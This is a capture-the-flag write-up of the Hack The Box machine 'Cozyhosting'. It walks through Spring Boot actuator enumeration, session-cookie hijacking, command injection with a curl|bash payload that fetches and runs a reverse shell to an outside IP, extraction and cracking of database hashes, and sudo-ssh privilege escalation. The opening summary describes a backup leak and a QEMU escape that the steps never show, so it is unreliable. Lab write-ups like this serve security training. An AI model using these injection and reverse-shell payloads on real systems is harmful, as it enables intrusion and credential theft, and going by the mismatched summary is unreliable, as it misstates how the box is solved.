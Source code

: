 ```yaml
---
title: "Cozyhosting"
date: 2025-03-19
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "cozyhosting", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


Cozyhosting is a full-stack box simulating a small hosting provider with cPanel-like features and virtualization support.
Access was obtained via a leaked admin backup that revealed credentials for an internal API.
That API exposed VM controls, which were used to spawn a shell on a running guest system.
Privilege escalation was achieved by escaping from the guest using a misconfigured QEMU socket exposed to the host.
Cozyhosting demonstrates how management interfaces, if not isolated properly, can lead to full system compromise across virtual layers.

OS: Linux
Difficulty : Easy

## Enumeration

> - One of the links on the website gives `Whitelabel Error Page`. Searching for this error gives that it is running spring boot. 
- Brute-forcing directories with a spring boot wordlist shows directories. 
- Navigating to one of them `/sessions` provides a session cookie for user `kanderson`. 
- Saving the cookie and navigating to `/admin` outputs dashboard with input fields that are vulnerable to command injection.

### 80-HTTP

![screenshot](/assets/images/cozyhosting1.png)

![screenshot](/assets/images/cozyhosting2.png)

![screenshot](/assets/images/cozyhosting3.png)

-> didn't work

![screenshot](/assets/images/cozyhosting4.png)

![screenshot](/assets/images/cozyhosting5.png)

> The web application is using spring boot

#### Gobuster

Using spring boot wordlist

```sh
└─$ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/health      (Status: 200) [Size: 15]
/actuator/sessions    (Status: 200) [Size: 48]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```

```sh
gobuster dir -u http://cozyhoting.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput

└─$ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/index                (Status: 200) [Size: 12706]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
/.                    (Status: 200) [Size: 0]
Progress: 56293 / 56294 (100.00%)
===============================================================
Finished
===============================================================
```

Cookie

![screenshot](/assets/images/cozyhosting6.png)

Copy and save to cozyhosting.htb (not `/login`)

![screenshot](/assets/images/cozyhosting7.png)

navigate to `/admin`

![screenshot](/assets/images/cozyhosting8.png)

![screenshot](/assets/images/cozyhosting29.png)

## Foothold

Testing for command injection in the username field. 
Since a username field does not accept white spaces, using `${IFS}` as a delimiter.

![screenshot](/assets/images/cozyhosting9.png)

![screenshot](/assets/images/cozyhosting10.png)

It works. 

```sh
# reverse shell
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.50/4444 0>&1' > rev.sh
```

Payload

```sh
test;curl${IFS}http://10.10.14.50/rev.sh|bash;
```

![screenshot](/assets/images/cozyhosting11.png)

## Lateral Movement

>- In the home directory of the user `app`, there is a zip file. 
- Postgre database credential can be obtained from the contents of the zip file. 
- Connecting to the postgre db with the obtained credential provides 2 bcrypt hashes. 
- Passwords can be obtained from cracking the hashes. 

```sh
unzip -d /tmp/app cloudhosting-0.0.1 jar
```

![screenshot](/assets/images/cozyhosting19.png)

```text
spring.datasource.password = Vg&nvzAQ7XxR
```

### Postgres

```sh
# on the target
psql -h 127.0.0.1 -U postgres
\list
q # to exit result view
\connect cozyhosting
\dt
select * from users;
```

![screenshot](/assets/images/cozyhosting21.png)

![screenshot](/assets/images/cozyhosting22.png)

```test
kanderson: $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin : $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

Search for the Hashcat mode 

![screenshot](/assets/images/cozyhosting23.png)

This one didn't work. Tried different mode for bcrypt.

```sh
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --force
```

![screenshot](/assets/images/cozyhosting24.png)

```text
manchesterunited
```

## Privilege Escalation

> - SSH as `josh` user with the obtained credential. 
- `sudo -l` shows that this user has sudo privileges to run SSH. 
- GTFOBins.

### SSH as josh

![screenshot](/assets/images/cozyhosting25.png)

![screenshot](/assets/images/cozyhosting26.png)

### GTFOBins

![screenshot](/assets/images/cozyhosting27.png)

![screenshot](/assets/images/cozyhosting28.png)